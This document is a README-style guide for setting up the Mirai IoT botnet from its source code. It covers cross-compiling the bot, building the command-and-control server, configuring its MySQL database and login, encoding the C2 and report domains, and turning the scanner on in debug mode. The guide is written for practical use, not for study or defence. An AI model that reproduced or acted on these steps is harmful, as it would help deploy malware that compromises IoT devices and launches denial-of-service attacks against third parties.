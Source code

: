 # Mirai Setup Instruction

## Step 1: Update and upgrade, 
use root priviledge to make things easier
```
sudo su
apt-get update -y
apt-get upgrade -y
```

## Step 2: run cross-compile.sh 
navigate into the scripts folder  
This script download and compile xcompiler for you.  
See script for detail.
```
cd scripts
./xcompile.sh
```
## Step 3: Install go packages:
```	
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```

## Step 4: building mirai
Naviage to the mirai folder where the script located  
the output files will be in the debug folder, with cnc and mirai.dbg
```	
./build.sh debug telnet
```

## Step 5: Database setup 
This is for secure database installation
Set up Table and create user  
(read the last line in db.sql, that's the user that we create to log in to cnc)

```
/usr/bin/mysql_secure_installation
cd scripts
mysql -u root -p
-enter password-
source db.sql;
quit;
```

## Step 6: Database continuing
edit main.go file located in ../mirai/cnc  
assuming you set the database password as root

e.g.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```

## Step 7: to run cnc
1. 
restart mysql: service mysql restart  
navigate to debug foler: cd /mirai/debug  
run the cnc: ./cnc

2. then telnet to access cnc
in windows or ubuntu, use Putty; in Mac, simply telnet in terminal
e.g.
telnet localhost

login credential(set in step 5):  
username: root  
password: root


**setup complete**
***


## Other configuration:
### table.c:
we need to encrypt cnc-domain and report domain and put it in table.c  
Mirai use this to resovle your domain

run:
```
./enc ip 127.0.0.1 or ./enc string www.example.com 
```
If you want to build the release version, remember to copy promtp.txt into the release folder, because admin.go file reads it, if the file not found, will not create connection.

In debug mode, the scanner is turn-off by default, need to edit it in mian.c:158 , so the scanner can run in debug mode.

**Very Important!!**: use sudo to execute!!! 






